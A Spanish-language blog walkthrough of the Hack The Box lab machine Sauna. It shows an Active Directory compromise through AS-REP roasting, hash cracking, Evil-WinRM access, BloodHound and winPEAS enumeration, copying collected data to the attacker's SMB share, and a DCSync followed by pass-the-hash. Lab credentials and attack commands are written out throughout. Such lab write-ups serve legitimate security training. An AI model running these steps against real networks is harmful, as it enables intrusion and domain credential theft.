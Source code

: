 ```yaml
---
layout: single
title: Sauna - Hack The Box
excerpt: "Sauna fue una buena oportunidad para jugar con los conceptos de Windows Active Directory empaquetados en una caja de dificultad fácil. Comenzaré usando una fuerza bruta de Kerberoast en los nombres de usuario que encontre en la pagina web, luego descubriré que uno de ellos tiene la bandera configurada para permitirme obtener su hash sin autenticarme en el dominio. Haré AS-REP Roast para obtener el hash, romperlo y obtener una shell. Encontraré las credenciales de los próximos usuarios en la clave de registro de AutoLogon. BloodHound mostrará que el usuario tiene privilegios que le permiten realizar un ataque DC Sync, que proporciona todos los hashes de dominio, incluidos los administradores, que usaré para obtener un shell."
date: 2021-07-05
classes: wide
header:
  teaser: /assets/images/Sauna/0.png
  teaser_home_page: true
  icon: /assets/images/Sauna/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  -   Active Directory
  -   ASP-RESP Roasting
---
```


# Sauna HTB

Buenas a todos, hoy voy a estar resolviendo la maquina Sauna de HackTheBox, es una maquina Windows de dificultad facil, en ella vamos a tocar Directorio Activo.

![/assets/images/Sauna/Untitled.png](/assets/images/Sauna/Untitled.png)

# **ENUMERACIÓN CON NMAP**

Lo primero de todo como siempre será enumerar que puertos tiene abiertos la maquina, para ellos vamos a utilizar la herramienta "nmap" con la que haremos un escaneo exhaustivo de puertos.

Para hacer un "Fast Scan" de puertos, siempre suelo utilizar esta sintaxis:

`nmap -sS —min-rate 5000 -p- —open -n -Pn -vvv <IPMACHINE> -oN <FILENAME>` 

![/assets/images/Sauna/Untitled%201.png](/assets/images/Sauna/Untitled%201.png)

Yo lo exporto en formato Grep para extraer los puertos con la utilidad "extractPorts" del Youtuber/Streamer "S4vitaar".

Esta utilidad me copia los puertos en la clipboard. Os comparto el Script por aquí pero recordad dejar una estrellita en el Github de S4vitar: (solo tenéis que tener instalado xclip y pegar este código en la .bashrc o .zshrc)

[https://pastebin.com/tYpwpauW](https://pastebin.com/tYpwpauW) 

![/assets/images/Sauna/Untitled%202.png](/assets/images/Sauna/Untitled%202.png)

Ahora vamos a enumerar versiones y servicios de todos los puertos con Nmap:

`nmap -sC -sV -p<PUERTOS> <IPMACHINE> -oN <FILENAME>`

![/assets/images/Sauna/Untitled%203.png](/assets/images/Sauna/Untitled%203.png)

Vemos que nmap nos arroja un nombre de dominio llamado: EGOTISTICAL-BANK.LOCAL , vamos a añadirlo al /etc/hosts junto con sauna.htb

Después de enumerar un poco los puertos, no veo nada interesante en el puerto 445 (SAMBA) un puerto que siempre es muy importante de echarle un vistazo, pero no tenemos acceso para poder ver los recursos, así que voy a ir directamente al servicio web que corre en el puerto 80. 

![/assets/images/Sauna/Untitled%204.png](/assets/images/Sauna/Untitled%204.png)

Vemos en About Us que hay unos nombres de usuarios con los que podriamos crear posibles usuarios:

![/assets/images/Sauna/Untitled%205.png](/assets/images/Sauna/Untitled%205.png)

![/assets/images/Sauna/Untitled%206.png](/assets/images/Sauna/Untitled%206.png)

Con la utilidad GetNPUsers.py, podemos hacer un ataque ASP-RESP Roasting, intentararemos obtener algun hash:

`python3 GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -userfile users -format hashcat -outputfile hash -dc-ip 10.10.10.175`

![/assets/images/Sauna/Untitled%207.png](/assets/images/Sauna/Untitled%207.png)

Vamos a intentar crackear con john el hash:

![/assets/images/Sauna/Untitled%208.png](/assets/images/Sauna/Untitled%208.png)

Ya tenemos la contraseña del usuario `fsmith:Thestrokes23`

Vamos a intentar conectarnos al sistema con Evil-WinRM:

`evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23`

![/assets/images/Sauna/Untitled%209.png](/assets/images/Sauna/Untitled%209.png)

![/assets/images/Sauna/Untitled%2010.png](/assets/images/Sauna/Untitled%2010.png)

# **PRIV. ESCALATION ROOT**

Nos compartimos un servidor http con python con el comando :

`python3 -m http.server 80`

![/assets/images/Sauna/Untitled%2011.png](/assets/images/Sauna/Untitled%2011.png)

Pasamos el script de powershell `SharpHound.ps1` a la maquina y ejecutamos el comando :

`Invoke-BloodHound -CollectionMethod All`

![/assets/images/Sauna/Untitled%2012.png](/assets/images/Sauna/Untitled%2012.png)

Para que nos haga una recopilacion de todo el sistema y nos lo guarde en un .zip, que nos vamos a pasar a nuestra maquina, para ello compartimos una carpeta de nuestro sistema con la maquina:

`python3 smbserver.py share . -smb2support -username pwned -password password123`

![/assets/images/Sauna/Untitled%2013.png](/assets/images/Sauna/Untitled%2013.png)

Y en la maquina remota :

`net use \\IP\share /u:pwned password123`

De esta manera nos compartimos la carpeta actual y podemos copiar el .zip a nuestra maquina:

`copy <FILENAME.ZIP> \\IP\share`

![/assets/images/Sauna/Untitled%2014.png](/assets/images/Sauna/Untitled%2014.png)

Abrimos nuestro BloodHound y agregamos el .zip para ver de que forma podemos escalar privilegios:

Enumerando un poco encontramos que hay un usuario (SVC_LOANGMGR) con el que podríamos convertirnos en Domain Admins:

![/assets/images/Sauna/Untitled%2015.png](/assets/images/Sauna/Untitled%2015.png)

Vamos a enumerar un poco mas el sistema para ver si conseguimos convertirnos en ese usuario, voy a utilizar Invoke-winPEAS.ps1, me lo comparto de la misma forma que antes y ejecuto:

`Invoke-winPeas`

Y nos reporta unas credenciales de un usuario llamado svc_loanmanager: 

![/assets/images/Sauna/Untitled%2016.png](/assets/images/Sauna/Untitled%2016.png)

Vamos a intentar conectarnos a esa cuenta a traves de evil-winrm:

![/assets/images/Sauna/Untitled%2017.png](/assets/images/Sauna/Untitled%2017.png)

Si nos fijamos bien no hay ningun usuario llamado svc-loanmanager:

![/assets/images/Sauna/Untitled%2018.png](/assets/images/Sauna/Untitled%2018.png)

Vamos a intentar utilizar esas credenciales para el usuario que necesitamos svc_loanmgr:

![/assets/images/Sauna/Untitled%2019.png](/assets/images/Sauna/Untitled%2019.png)

Estamos dentro de la cuenta que necesitamos, ahora toca escalar privilegios tal y como nos muestra BloodHound:

![/assets/images/Sauna/Untitled%2020.png](/assets/images/Sauna/Untitled%2020.png)

Podemos realizar un ataque DCSync con el usuario SVC_LOANMGR, Para extraer credenciales del controlador de dominio sin ejecución de código en él podemos usar la herramienta secretsdump de impacket o con mimikatz como dice BloodHound:

![/assets/images/Sauna/Untitled%2021.png](/assets/images/Sauna/Untitled%2021.png)

Ya tenemos el hash del administrador del dominio, podemos usar la herramienta psexec de impacket para conectarnos a la maquina sin necesidad de saber su contraseña, solo con su hash es suficiente:

![/assets/images/Sauna/Untitled%2022.png](/assets/images/Sauna/Untitled%2022.png)

Espero que os haya gustado, a mi me ha encantado, las maquinas de Directorio Activo son muy divertidas de vulnerar. Hasta la próxima.